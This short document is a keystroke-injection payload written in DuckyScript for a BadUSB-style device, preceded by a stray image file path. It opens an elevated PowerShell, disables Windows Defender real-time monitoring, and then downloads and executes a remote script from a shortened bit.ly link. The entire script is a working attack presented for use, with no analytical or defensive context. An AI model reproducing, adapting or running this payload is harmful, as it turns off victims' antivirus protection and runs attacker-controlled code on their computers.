 GUI r
DELAY 40
STRING powershell
CTRL SHIFT ENTER
DELAY 50
STRING Set-MpPreference -DisableRealtimeMonitoring $true
ENTER
DELAY 50
STRING iex(New-Object Net.WebClient).DownloadString('https://bit.ly/3YWTJKm')
ENTER
